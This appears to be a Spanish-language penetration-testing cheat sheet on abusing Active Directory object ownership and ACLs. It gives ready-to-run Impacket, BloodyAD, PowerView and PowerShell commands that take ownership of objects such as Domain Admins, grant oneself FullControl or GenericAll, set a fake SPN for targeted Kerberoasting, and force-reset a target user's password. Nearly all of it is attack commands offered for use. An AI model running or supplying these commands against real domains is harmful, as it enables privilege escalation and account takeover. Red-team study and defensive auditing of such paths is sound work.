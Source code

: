 # Info

Si tenemos acceso a la máquina solo mediante winrm, evil-winrm tiene muchos problemas de sesión, para no perder tiempo: Usar directamente las herramientas de linux.

# Desde Linux

### Impacket

#### Cambiar el ownership
    impacket-owneredit -action write -new-owner 'aaru' -target-dn 'CN=Domain Admins,CN=Users,DC=ignite,DC=local' 'ignite.local'/'aaru':'Password@1' -dc-ip 192.168.1.6

#### Darse full control

    impacket-dacledit -action 'write' -rights 'FullControl' -principal '{user}' -target 'ca_svc' '{domain name}'/'{user}':'{password}' -dc-ip 192.168.1.6

#### Validar el new owner

    ldapsearch -x -H ldap://<IP_O_SERVIDOR> -D "usuario@dominio.com" -w "contraseña" -b "DC=dominio,DC=com" "(distinguishedName=CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com)" nTSecurityDescriptor
### BloodyAD

#### Cambiar el owner

    bloodyAD --host {host name} -d {domain name} -u {user} -p {password} set owner {target} {user} 

#### Darse full rights

    bloodyAD -u "DOMINIO\usuario" -p "contraseña" -d dominio.local set-permission -t "CN=UsuarioTarget,OU=Usuarios,DC=dominio,DC=com" -o "DOMINIO\NuevoOwner" -p "GenericAll"

#### Validar ownership y GenericAll

    bloodyAD -u "example\admin" -p "Password123" -d example.local get-object-acl -t "CN=JohnDoe,OU=Users,DC=example,DC=local" | grep -E "(Owner|GenericAll)"
# Desde windows

### Powerview

#### Tomar control
    Set-DomainObjectOwner -Identity 'TARGET' -OwnerIdentity 'sameer'

#### Darse full control

    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "TARGET" -PrincipalIdentity "sameer"
#### Validar el nuevo owner

    (Get-ObjectACL -Identity "CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -ResolveGUIDs).Owner
    
### AD powershell
    $user = Get-ADUser -Identity "TARGET" -Properties * 
    $acl = Get-ACL -Path "AD:\$($user.DistinguishedName)"
    $newOwner = (New-Object System.Security.Principal.NTAccount("Dominio\NuevoPropietario"))
    $acl.SetOwner($newOwner)
    Set-ACL -Path "AD:\$($user.DistinguishedName)" -AclObject $acl

#### Validar el nuevo owner

    $acl.Owner

#### Dar full rights
    Set-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local" -AclObject (Get-ACL -Path "AD:\CN=UsuarioTarget,OU=Usuarios,DC=Dominio,DC=Local").AddAccessRule((New-Object System.DirectoryServices.ActiveDirectoryAccessRule -ArgumentList (New-Object System.Security.Principal.NTAccount('Dominio\NuevoOwner')), "GenericAll", "Allow"))

---

# Explotación/abuso
## Kerberoasting
#### 1) Creamos un spn falso sobre el usuario

    Set-DomainObject -Identity 'TARGET' -Set @{serviceprincipalname='mydomain/Testing'}
#### 2) Kerberosteamos y crackeamos.

## Cambiar contraseña del user

### BloodyAD
    bloodyAD --host "192.168.1.6" -d "ignite.local" -u "sakshi" -p "Password@1" set password "TARGET" "Password@987"

### Impacket
#### Cambiar mediante kpasswd
    impacket-changepasswd -reset -protocol kpasswd contoso.local/Target@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
#### Cambiar mediante ldap
    impacket-changepasswd -reset -protocol ldap contoso.local/target@DC1 -newpass 'N3wPassw0rd!' -altuser CONTOSO/SrvAdm
